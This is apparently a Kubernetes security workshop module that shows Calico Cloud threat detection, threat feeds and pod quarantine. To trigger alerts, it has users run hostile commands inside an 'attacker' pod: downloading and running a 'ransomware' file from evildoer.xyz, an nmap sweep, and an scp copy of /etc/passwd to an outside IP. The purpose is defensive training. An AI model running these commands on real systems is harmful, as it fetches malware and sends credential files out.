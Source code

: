 Container Security and Security Events
==============

## Step 1 - Set up the voting application

In this module we're moving away from the Hipstershop Online Boutique and setting up a sample voting application:

```bash
kubectl apply -f https://raw.githubusercontent.com/mapgirll/Tigera-LevelUp-Workshop/main/vote/001-felixConfigurations.yaml
kubectl apply -f https://raw.githubusercontent.com/mapgirll/Tigera-LevelUp-Workshop/main/vote/002-tiers.yaml
kubectl apply -f https://raw.githubusercontent.com/mapgirll/Tigera-LevelUp-Workshop/main/vote/003-networkPolicies.yaml
kubectl apply -f https://raw.githubusercontent.com/mapgirll/Tigera-LevelUp-Workshop/main/vote/004-vote-app-manifest.yaml
kubectl apply -f https://raw.githubusercontent.com/mapgirll/Tigera-LevelUp-Workshop/main/vote/005-applicationLayer.yaml
kubectl apply -f https://raw.githubusercontent.com/mapgirll/Tigera-LevelUp-Workshop/main/vote/006-pods.yaml
```

or

```bash
kubectl apply -f vote
```

Just like the previous modules, you need to label all pods within the ```vote``` namespace so they will be able to communicate with each other. 

```bash
kubectl label pods --all -n vote vote=true
```

Threat Defense
==============

Calico Cloud provides a threat detection engine that analyzes observed file and process activity to detect known malicious and suspicious activity.

Our threat detection engine also monitors activity within the containers running in your clusters to detect suspicious behaviour and generate corresponding alerts. The threat detection engine monitors the following types of suspicious activity within containers:

- Access to sensitive system files and directories
- Defence evasion
- Discovery
- Execution
- Persistence
- Privilege escalation

1. Let's start by enabling the container threat detection feature.
   For this, go to the `Threat Defense` option in the left-hand menu of Calico Cloud and select `Container Threat Detection`.

2. If it is not enabled, you will see a page like this:

   ![enable](https://github.com/tigera-solutions/cc-aks-detect-block-network-attacks/assets/104035488/54014c62-cbef-4718-93fa-75390febb88a)

   Click on the Enable Container Threat Detection button, and you will see the following page:

   ![running](https://github.com/tigera-solutions/cc-aks-detect-block-network-attacks/assets/104035488/42906ad6-ced1-40a8-b817-4a4b5c740d08)

   Perfect! Now any suspicious activities will generate an alert. Let's try some.

   In other to see the results faster, execute the following on the cluster:

   ```bash
   kubectl -n tigera-runtime-security annotate daemonset runtime-reporter unsupported.operator.tigera.io/ignore="true"
   kubectl -n tigera-runtime-security get daemonset.apps/runtime-reporter -o yaml | sed 's/15m/1m/g' | kubectl apply -f -
   ```

## Malware execution alert and security events

Security events suggest the possible presence of a threat actor in your Kubernetes cluster. These events can take various forms, such as a DNS request to a suspicious domain, the activation of a Web Application Firewall (WAF) rule, unauthorized access to sensitive files, or the detection of malware. Calico Cloud offers a centralized dashboard for security engineers and incident response teams to efficiently oversee and respond to these threat alerts. The advantages of using Calico Cloud in this context include:

- A filtered list of critical events with recommended remediation
- Identify impacts on applications
- Understand the scope and frequency of the issue
- Manage alert noise by dismissing events (show/hide)

To test this feature, let's download a file that contains the hash of a malware and execute it inside the pod attacker.

1. Execute the bash inside the pod attack in way you can interact with its shell prompt:

   ```bash
   kubectl exec attacker -it -- /bin/bash
   ```

2. From the bash inside the pod attacker execute the following command to: 1) Download the malware, change its permission and run it.

   ```bash
   wget http://evildoer.xyz/ransomware
   chmod +x ransomware
   ./ransomware
   ```
   
3. Wait a minute and look in the Calico Cloud UI in the `Threat Defense` > `Security Events`.

   ![security-events](https://github.com/tigera-solutions/cc-aks-visualize-identify-security-gaps/assets/104035488/200b4d0b-490a-4d7c-b18e-ef9c59cc6079)

   Because the `ransomware` file has a hash that identifies it as a malware, Calico will create a **Malware** event indicating its execution event. Additionally, a security event showing the modification of the file permission (`chmod +x ransomware`) will be created as well.

   Optionally, you can also try the following commands and observe the security events that are created;
   
   ```bash
   apk add nmap
   nmap -sn $(hostname -i)/24
   passwd root
   scp -o ConnectTimeout=3 /etc/passwd goomba@198.13.47.158:/tmp/
   ```
   Wait another minute and look in the Calico Cloud UI in the `Threat Defense` > `Security` again.

## Threat Feeds

In modern cloud-native security, threat intelligence feeds are vital for monitoring and tracking the IP addresses and domains associated with known malicious actors. Calico Cloud integrates threat intelligence feeds, including AlienVault, into its default security policies. This means that right from the outset, any traffic directed to suspicious IP addresses or domain is automatically blocked without requiring additional setup.

1. Explore the Threat Feeds available in Calico Cloud UI in the `Threat Defense` > `Threat Feeds`. Click on each one of them to visualize the lists of IP addresses or domains.

   ![threat-feeds](https://github.com/tigera-solutions/cc-aks-visualize-identify-security-gaps/assets/104035488/719cb334-e981-4e5e-8ef4-b37eea4a422b)

2. Using the pod attacker, try to connect to some of the IP addresses and domains you found in the alienvault lists.

   ```bash
   curl -m2 -vvvvv 
   ```

3. Wait a minute and go to the Calico Cloud UI in the `Activity` > `Alerts`. You should be able to see the alerts for the connection attempt.

   ![activity-alerts](https://github.com/tigera-solutions/cc-aks-visualize-identify-security-gaps/assets/104035488/ed2aad8c-f713-4e0e-b5c5-8abdb299fdb4)

## Quarantine a workload

Suppose you have a compromised workload in your environment and want to conduct further investigation on it. In that case, you should not terminate the workload but isolate it, so it will not be able to cause damage or spread laterally across your environment. In this situation, you should quarantine the pod by applying a security policy to it that will deny all the egress and ingress traffic and log all the communications attempts from and to that pod.

We have the `quarantine` policy created in the `security` tier. This policy has a label selector of `quarantine = true`. Let's see how it works.

1. Execute the following commands from the attacker pod (if you did quit from its shell, it got deleted. Create it again if it's the case.).

   - Test the connection to a local service

     ```bash
     curl -m3 http://vote.vote
     ```

   - Test the connectivity with the Kubernetes API

     ```bash
     curl -m3 -k https://kubernetes:443/versions
     ```  

   - Test the connectivity with the internet

     ```bash
     curl -m3 http://neverssl.com
     ```  

2. Label the attacker pod with `quarantine = true`. 

   ```bash
   kubectl label pod attacker quarantine=true
   ```

3. Repeat the tests from step 1. Now, as you can see, the cannot establish communication with any of the destinations.

---

[:arrow_left: Workload Microsegmentation](/mod/module-3-namespace-isolation.md)       <br>

[:arrow_right: Web Application Firewall](/mod/module-5-waf.md)  <br>
[:leftwards_arrow_with_hook: Back to Main](/README.md)  